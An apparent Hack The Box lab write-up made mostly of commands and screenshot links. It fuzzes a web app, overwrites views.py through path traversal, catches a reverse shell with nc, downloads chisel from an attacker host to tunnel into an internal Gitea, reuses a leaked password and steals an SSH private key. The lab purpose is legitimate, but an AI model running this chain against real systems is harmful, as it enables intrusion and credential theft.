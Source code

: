 ```
nmap -sS -sC -sV -T5 -Pn 10.10.11.164
```
![image](https://github.com/regarmulia/HTB/assets/33616880/bd23ea8e-8d62-47e6-b5dc-85b954b967a3)


```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://10.10.11.164/FUZZ -e .aspx,.php,.txt,.html,.sh
```
![image](https://github.com/regarmulia/HTB/assets/33616880/5795739c-4a17-4504-8488-d1ace66b3196)


```
source.zip
git log
```
![image](https://github.com/regarmulia/HTB/assets/33616880/e3fad636-4220-495e-bb1d-56e184b5896c)

![image](https://github.com/regarmulia/HTB/assets/33616880/d789400c-a783-427a-912f-402b6a3abb62)


```
http://10.10.11.164/upcloud
sample
```
![image](https://github.com/regarmulia/HTB/assets/33616880/b4583816-0a36-4f81-9a89-397b094bae2e)


```
Views.py
```
![image](https://github.com/regarmulia/HTB/assets/33616880/193201c3-0cea-4314-a186-70c17f23143e)


```
..//app/app/views.py
```
![image](https://github.com/regarmulia/HTB/assets/33616880/6d1f0daa-1966-4db5-b468-26485f7bd868)

![image](https://github.com/regarmulia/HTB/assets/33616880/0b21c820-b480-440a-94f3-4b8412476caf)


```
nc -lvnp 443
http://10.10.11.164/0xdf
```
![image](https://github.com/regarmulia/HTB/assets/33616880/3435d421-6ef9-4832-abe4-507d7b8c0462)


```
ifconfig
```
![image](https://github.com/regarmulia/HTB/assets/33616880/187abd6f-a957-4a27-a578-4ec59fe32b48)


```
wget http://10.10.14.2:8000/chisel_1.9.0_linux_amd64
```
![image](https://github.com/regarmulia/HTB/assets/33616880/710b1a2f-ba49-4b90-909f-c340735bdc2d)


```
/chisel_1.9.0_linux_amd64 server -p 8000 –reverse
./chisel_1.9.0_linux_amd64 client 10.10.14.2:8000 R:3000:172.17.0.1:3000
```
![image](https://github.com/regarmulia/HTB/assets/33616880/2f932b94-17a3-440f-946b-43b1885d3c3f)

![image](https://github.com/regarmulia/HTB/assets/33616880/261f4c2e-61ba-4924-b826-e91e62068968)


```
http://127.0.0.1:3000/
Soulless_Developer#2022
```
![image](https://github.com/regarmulia/HTB/assets/33616880/c4e06b02-b002-47d4-8f27-9874144fdb20)


```
http://127.0.0.1:3000/dev01/home-backup/src/branch/main/.ssh/id_rsa
```
![image](https://github.com/regarmulia/HTB/assets/33616880/111d3d4a-6636-4f38-b2b0-24b20a9030ca)


```
ssh -i id_rsa dev01@10.10.11.164
```
![image](https://github.com/regarmulia/HTB/assets/33616880/253a8ec4-8df2-4dfd-9717-acc2eaabe53f)


```
./pspy64
```
![image](https://github.com/regarmulia/HTB/assets/33616880/0370c502-059d-4b9c-8101-6b96ae788174)
